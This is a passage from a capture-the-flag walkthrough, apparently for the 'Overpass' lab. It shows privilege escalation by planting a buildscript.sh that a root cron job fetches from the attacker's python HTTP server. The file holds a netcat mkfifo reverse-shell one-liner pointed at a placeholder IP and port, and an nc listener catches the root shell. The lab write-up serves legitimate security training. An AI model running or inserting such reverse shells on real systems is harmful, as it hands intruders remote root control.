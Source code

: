     * `mkdir downloads && cd downloads/ && mkdir src`

3. Create a file named `buildscript.sh` in `/downloads/src/` directory you just created.

4. Make the contents of `buildscript.sh` to a reverse shell using any text editor you want.
![Malicious buildscript.sh](../imgs/Overpass/reverse_shell_netcat.png)

    `buildscript.sh` content:

    ```bash
    #!/bin/bash

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {IP} {PORT} >/tmp/f
    ```

5. Go back 2 directories and open up a http server in port 80 using `python`.

    * `cd ../../`
    * `sudo python3 -m http.server 80`

6. Setup a reverse shell listener using `nc`.

    * `nc -lvnp {PORT}`

7. If you set it up properly, it should look like this.
![Reverse Shell Listener](../imgs/Overpass/setup_for_catching_revshell.png)

8. Wait for 1 minute and the `root` shell should pop.